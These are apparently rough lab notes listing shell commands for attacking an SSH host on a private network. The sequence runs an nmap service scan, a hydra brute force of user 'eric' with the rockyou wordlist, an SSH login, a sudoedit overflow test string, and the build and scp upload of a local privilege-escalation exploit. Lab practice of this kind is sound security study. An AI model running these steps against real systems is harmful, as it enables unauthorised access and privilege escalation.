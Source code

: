 
nmap -sV -p22 192.168.33.0-20
cd /usr/share/wordlists
sudo gzip -d rockyou.txt.gz
hydra -l eric -P rockyou.txt 192.168.33.10
ssh eric@192.168.33.10
password
sudoedit -s '\' `perl -e 'print "A" x 65536'`

cd /blah/blah
make
# rm ~/.ssh/known_hosts
scp exploit eric@192.168.33.10:/home/eric/

sudo apt install build-essential
sudo apt install gcc

